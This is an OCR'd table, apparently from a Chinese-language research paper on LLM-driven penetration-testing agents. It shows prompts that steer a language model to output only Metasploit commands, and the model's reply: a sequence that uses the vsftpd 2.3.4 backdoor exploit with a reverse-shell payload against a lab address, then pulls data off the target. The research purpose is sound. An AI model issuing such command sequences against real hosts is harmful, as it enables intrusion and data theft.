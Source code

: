 &#124; 1\. 通过在命令提示符中输入“msfconsole”来打开Metasploit框架。&#124;

&#124; 2\. 通过在框架控制台中输入“search vsftpd”来搜索与识别的服务相关的漏洞。&#124;

&#124; 3\. 通过在控制台中输入“use exploit/unix/ftp/vsftpd_234_backdoor”来选择漏洞模块。&#124;

&#124; 4\. 通过输入&#124;设置漏洞模块的必要参数。

&#124; 在控制台中输入“set RHOSTS 172.16.2.3”和“set payload cmd/unix/reverse”。&#124;

&#124; 5\. 通过在控制台中输入“run”来启动利用。&#124;

&#124; 6\. 一旦利用成功，通过在&#124;中输入“sessions -i 1”来访问目标机器的shell。

&#124; 控制台。&#124;

&#124; 7\. 使用诸如“ls”等各种命令收集信息并从目标机器中外泄数据，&#124;

&#124; “pwd”，“cat”，“wget”等。&#124;

|

| 请勿生成除命令行操作之外的任何其他文本。不要提供额外的文本或标点符号。 |
| --- |

&#124; msfconsole &#124;

&#124; 使用 exploit/unix/ftp/vsftpd_234_backdoor &#124;

&#124; 设置 RHOSTS 172.16.2.3 &#124;

&#124; 设置负载 cmd/unix/reverse &#124;

&#124; 设置 LHOST <攻击者IP地址> &#124;

&#124; exploit &#124;

|

| 发起攻击的机器的IP地址是172.16.2.2\. 当没有更多命令可用时，请说STOP。 |
| --- |

&#124; 使用 exploit/unix/ftp/vsftpd_234_backdoor &#124;

&#124; 设置 RHOSTS 172.16.2.3 &#124;

&#124; 设置负载 cmd/unix/reverse &#124;

&#124; 设置 LHOST 172.16.2.2 &#124;

&#124; exploit &#124;

&#124; STOP &#124;

|

表2：在执行阶段提示中，LLM对于每个语句的响应（参见第[3.2.1节](#S3.SS2.SSS1 "3.2.1 执行操作阶段提示 ‣ 3.2 提示工程 ‣ 3 设计LLM支持和自治 ‣ LLM扼杀了脚本小子：由大型语言模型支持的代理如何改变网络威胁测试的格局")）。所有语句汇总后形成最终提示，产生一组简洁的Metasploit命令，可以解析并执行。*此语句用于演示LLM的内容审核，将不会包含在后续的提示中。*
